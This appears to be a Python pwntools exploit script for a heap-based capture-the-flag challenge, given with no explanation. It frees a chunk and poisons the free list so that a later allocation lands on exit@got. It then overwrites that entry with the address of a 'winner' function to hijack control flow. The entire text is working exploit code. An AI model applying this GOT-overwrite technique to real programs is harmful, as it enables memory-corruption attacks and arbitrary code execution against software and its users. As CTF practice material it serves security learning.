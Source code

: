 ```py
send(b"1")

send(b"4") #delete (free)
send(b"0")

send(b"2")
send(b"0")
send(p64(exe.got["exit"])) # point free list to exit@got

send(b"1") # create (malloc)
send(b"3")

send(b"1") # create chunk at exit@got
send(b"4")

send(b"2")
send(b"4")
send(p64(exe.sym["winner"])) # edit exit@got to point at the winner function

send(b"1")
send(b"-1")

p.interactive()
```
